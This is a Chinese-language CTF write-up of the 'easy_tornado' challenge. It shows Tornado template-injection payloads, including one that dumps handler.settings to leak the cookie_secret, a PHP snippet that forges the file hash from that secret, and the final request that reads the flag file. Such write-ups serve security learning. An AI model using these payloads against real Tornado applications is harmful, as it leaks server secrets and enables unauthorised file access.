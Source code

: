 # [护网杯 2018]easy_tornado
TAG:python模板tornado注入  
## 解题过程：  
![20210108105853](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108105853.png)  
```/flag.txt```  
![20210108105916](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108105916.png)  
```/welcome.txt```  
![20210108105943](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108105943.png)  
```/hints.txt```  
![20210108110013](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108110013.png)  
从这三个文件获取到的信息：  
1. ```flag```位于```fllllllllllllag```文件中
2. ```render```表示这里使用了```python```的模板，需要测试是否可以进行模板注入
3. ```url```都是由```filename```和```filehash```组成，```filehash```即为他们```filename```的md5值，当```filename```或```filehash```不匹配时，将会跳转到错误页面，所以想到需要获取```cookie_secret```来得到```filehash```  
  
测试模板注入   
Payload:```error?msg={{1}}```  
![20210108110212](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108110212.png)  
存在模板注入漏洞，进行```cookie_secret```获取  
Payload:```error?msg={{handler.settings}}```  
![20210108110559](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108110559.png)  
Cookie_secret:```80175bd5-9c16-4794-8711-80700f547073```  
计算出```filehash```  
```
<?php
$cookie_secret='80175bd5-9c16-4794-8711-80700f547073';
$filename = '/fllllllllllllag';
$go = md5($cookie_secret . md5($filename));
echo $go;
?>
```
![20210108110645](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108110645.png)  
构造payload:```file?filename=/fllllllllllllag&filehash=863d2668182073da109088281c6054f6```  
![20210108110712](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210108110712.png)  